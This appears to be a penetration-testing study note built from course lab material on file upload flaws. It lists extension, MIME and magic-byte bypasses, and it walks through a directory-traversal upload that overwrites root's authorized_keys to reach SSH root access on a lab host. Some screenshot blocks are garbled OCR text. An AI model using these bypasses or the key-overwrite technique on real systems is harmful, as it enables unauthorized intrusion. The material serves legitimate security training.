

---
tags:
  - phase/exploitation
  - rce
  - shell
---

# Using non-executable files

> [!tip] Quick Reference — File Upload
> | Bypass | Technique |
> |--------|-----------|
> | Extension filter | `.php5`, `.phtml`, `.phar`, `.php.jpg` |
> | MIME type | Change Content-Type to `image/jpeg` in Burp |
> | Magic bytes | Prepend `GIF89a` or `ÿØÿ` to PHP file |
> | Double extension | `shell.php.jpg` (if server executes first ext) |
> | Case variation | `shell.PhP`, `shell.PHP` |
> | Null byte | `shell.php%00.jpg` (old PHP) |

## Decision Tree

```
File upload functionality found?
├── [1] What extensions are allowed?
│   ├── Try uploading shell.php directly
│   │   ├── Accepted → upload and navigate to file
│   │   └── Blocked → try bypass techniques
│   │
├── [2] Extension bypasses
│   ├── Alternate PHP: .php5 .phtml .phar .php3
│   ├── Double ext: shell.php.jpg
│   └── Case: shell.PhP
│
├── [3] Content-Type bypass (Burp)
│   └── Upload .php file, intercept in Burp
│       └── Change Content-Type: application/x-php → image/jpeg
│
├── [4] Magic bytes bypass
│   └── Add GIF89a; to start of PHP file, save as shell.php.gif
│
├── [5] Find where files are uploaded
│   ├── Check page source for upload path
│   ├── Gobuster the uploads directory
│   └── Common paths: /uploads/ /files/ /media/ /images/
│
└── File accessible + executable → GET /uploads/shell.php?cmd=id
```

## Visual Flow



> [!success] What success looks like
> After overwriting root's `authorized_keys`, connecting with `ssh -p 2222 -i fileup root@mountaindesserts.com` accepts your key and drops you to a root prompt like `root@76b77a6eae51:~#`.

> [!danger] Common errors
> - Can't tell if the traversal path was used → the response may just echo your filename; this attack is often blind, so assume and test by connecting.
> - SSH host key error on a new box → `rm ~/.ssh/known_hosts` before connecting (the saved key is from a different machine).
> - `../` sequences stripped from the filename → try encoding them or backslashes. See [[🔣 Encoding Reference]].
> - Root has no SSH access → this only works if root login via key is allowed; if not, you have no other listed vector here.
> Full list: [[⚠️ Common Errors & Troubleshooting]]

> [!tip] Beginner note
> Even when you can't upload a file the server will *run*, an upload can still be dangerous: by putting `../` in the filename you control *where* the file is saved. Overwriting a sensitive file like `authorized_keys` turns a harmless-looking upload into full SSH access.

## Resources
- [HackTricks — File Upload](https://book.hacktricks.xyz/pentesting-web/file-upload)
- [PayloadsAllTheThings — Upload Bypass](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files)


In this section, we'll examine why flaws in file uploads can have severe consequences even if there is no way for an attacker to execute the uploaded files. We may encounter scenarios where we find an unrestricted file upload mechanism but cannot exploit it. One example for this is Google Drive, where we can upload any file, but cannot leverage it to get system access. In situations such as this, we need to leverage another vulnerability such as Directory Traversal to abuse the file upload mechanism.

> [!note]- Screenshot
> ```
> Let's begin to explore the updated "Mountain Desserts" web application by navigating
> to http://mountaindesserts.com:8000.
> +200 06 =nheewn we ¢
> ail WaT = 00s Marine CaN s By D8 s Gg ig 8” One
> fra. e)
> ; = fi
> Attention: We fired our cook and moved our 5 we t
> web application to Linux again! Lx . > 70
> bans)
> ‘Wego ct sg! Sty Blt yt mas ot a aC Be UO Ook 2°?
> cat amen tm cy tn we ol <4
> Slot atm ence and ert te aac od oo netng aoe Pak
> Seca of he end ena conten 20 1 Re
> Bas ite
> =r ee Oe
> Figure 18: Mountain Desserts Application on Windows
> ```


> [!note]- Screenshot
> ```
> We'll first notice that the new version of the web application still allows us to upload
> files. The text also reveals that this version of the application is running on Linux.
> Furthermore, there is no Admin link at the bottom of the page, and index.php is missing
> in the URL. Let's use curl to confirm whether the admin.php and index.php files still
> exist.
> 
> kali@kali:~$ curl http://mountaindesserts.com:8000/index.php
> 
> 404 page not found
> 
> kali@kali:~$ curl http://mountaindesserts.com:8000/meteor/index.php
> 
> 404 page not found
> 
> kali@kali:~$ curl http://mountaindesserts.com:8000/admin. php
> 
> 404 page not found
> 
> Listing 37 - Failed attempts to access PHP files
> 
> Listing 37 shows that the index.php and admin.php files no longer exist in the web
> application. We can safely assume that the web server is no longer using PHP. Let's try
> to upload a text file. We'll start Burp to capture the requests and use the form on the
> web application to upload the test.txt file from the previous section.
> ```

curl http://mountaindesserts.com:8000/index.php
curl http://mountaindesserts.com:8000/meteor/index.php
curl
[http://mountaindesserts.com:8000/admin.php](http://mountaindesserts.com:8000/admin.php)
Web applications using Apache, Nginx or other dedicated web servers often run with specific users, such as www-data on Linux. Traditionally on Windows, the IIS web server runs as a Network Service account, a passwordless built-in Windows identity with low privileges. Starting with IIS version 7.5, Microsoft introduced the IIS Application Pool Identities. These are virtual accounts running web applications grouped by application pools. Each application pool has its own pool identity, making it possible to set more precise permissions for accounts running web applications.

Let's try to overwrite the authorized_keys file in the home directory for root. If this file contains the public key of a private key we control, we can access the system via SSH as the root user. To do this, we'll create an SSH keypair with ssh-keygen, as well as a file with the name authorized_keys containing the previously created public key.


ssh-keygen
fileup
cat fileup.pub > authorized_keys


The target system runs an SSH server on port 2222. Let's use the corresponding private key of the public key in the authorized_keys file to try to connect to the system. We'll use the -i parameter to specify our private key and -p for the port.

In the Directory Traversal Learning Unit, we connected to port 2222 on the host mountaindesserts.com and our Kali system saved the host key of the remote host. Since the target system of this section is a different machine, SSH will throw an error because it cannot verify the host key it saved previously. To avoid this error, we'll delete the known_hosts file before we connect to the system. This file contains all host keys of previous SSH connections.


rm ~/.ssh/known_hosts
ssh -p 2222 -i fileup root@mountaindesserts.com
yes


Labs:
Follow the steps above on VM #1 to overwrite the authorized_keys file with the file upload mechanism. Connect to the system via SSH on port 2222 and find the flag in /root/flag.txt.

> [!note]- Screenshot
> ```
> Eee -
> O @ mountaindesserts.com:3000/upload
> Successfully Uploaded File: test.txt
> Figure 19: Text file successfully uploaded
> 
> Figure 19 shows that the file was successfully uploaded according to the web
> application's output.
> 
> When testing a file upload form, we should always determine what
> 
> happens when a file is uploaded twice. If the web application indicates
> 
> that the file already exists, we can use this method to brute force the
> 
> contents of a web server. Alternatively, if the web application displays
> 
> an error message, this may provide valuable information such as the
> 
> programming language or web technologies in use.
> ```


> [!note]- Screenshot
> ```
> Let's review the test.txt upload request in Burp. We'll select the POST request in HTTP
> 
> history, send it to Repeater, and click on Send.
> 
> Request Response —_
> Figure 20: POST request for the file upload of test.txt in Burp
> 
> Figure 20 shows we receive the same output as we did in the browser, without any new
> 
> or valuable information. Next, let's check if the web application allows us to specify a
> 
> relative path in the filename and write a file via Directory Traversal outside of the web
> 
> root. We can do this by modifying the "filename" parameter in the request, so it contains
> 
> wl./././../../..test.txt, then click send.
> ```


> [!note]- Screenshot
> ```
> a="
> Figure 21: Relative path in filename to upload file outside of web root
> 
> The Response area shows us that the output includes the ../ sequences. Unfortunately,
> we have no way of knowing if the relative path was used for placing the file. It's possible
> that the web application's response merely echoed our filename and sanitized it
> internally. For now, let's assume the relative path was used for placing the file, since we
> cannot find any other attack vector. If our assumption is correct, we can try to blindly
> overwrite files, which may lead us to system access. We should be aware, that blindly
> overwriting files in a real-life penetration test could result in lost data or costly downtime
> of a production system. Before moving forward, let's briefly review web server accounts
> and permissions.
> ```


> [!note]- Screenshot
> ```
> kali@kali:~$ ssh-keygen
> 
> Generating public/private rsa key pair.
> 
> Enter file in which to save the key (/home/kali/.ssh/id_rsa): fileup
> 
> Enter passphrase (empty for no passphrase):
> 
> Enter same passphrase again:
> 
> Your identification has been saved in fileup
> 
> Your public key has been saved in fileup.pub
> 
> kali@kali:~§ cat fileup.pub > authorized_keys
> 
> Listing 38 - Prepare authorized_keys file for File Upload
> 
> Now that the authorized_keys file contains our public key, we can upload it using the
> relative path ../../../../../../../root/.ssh/authorized_keys. We will select our
> authorized_keys file in the file upload form and enable intercept in Burp before we click
> on the Up/oad button. When Burp shows the intercepted request, we can modify the
> filename accordingly and press Forward.
> ```


> [!note]- Screenshot
> ```
> =
> Figure 22 shows the specified relative path for our authorized_keys file. If we've
> 
> successfully overwritten the authorized_keys file of the root user, we should be able to
> use our private key to connect to the system via SSH. We should note that often the root
> user does not carry SSH access permissions. However, since we can't check for other
> users by, for example, displaying the contents of /etc/passwd, this is our only option.
> ```


> [!note]- Screenshot
> ```
> kali@kali:~$ rm ~/.ssh/known_hosts
> 
> kali@kali:~$ ssh -p 2222 -i fileup root@mountaindesserts.com
> 
> ‘The authenticity of host ‘[mountaindesserts.com]:2222 ([192.168.50.16]:2222)" can't be
> 
> established.
> 
> £25519 key fingerprint is SHA256:R2JQNI3NJqpEehY21v9Qd1MAoeB3 jnPvj3qqfDZ3IXU.
> 
> This key is not known by any other names
> 
> ‘Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
> 
> root@76b77a6eaeS1:a%
> 
> Listing 39 - Using the SSH key to successfully connect via SSH as the root user
> 
> We could successfully connect as root with our private key due to the overwritten
> authorized_keys file. Facing a scenario in which we can't use a file upload mechanism
> to upload executable files, we'll need to get creative to find other vectors we can
> leverage.
> ```

---
%% graph-links %%
## Related
- [[Using executable files]]
- [[Local file inclusion (LFI)]]

> [!info] Navigation
> Section: [[Web Applications/Common Web Application Attacks/File Upload Vulnerabilities/_index|File Upload Vulnerabilities]] · Home: [[🏠 Home]]

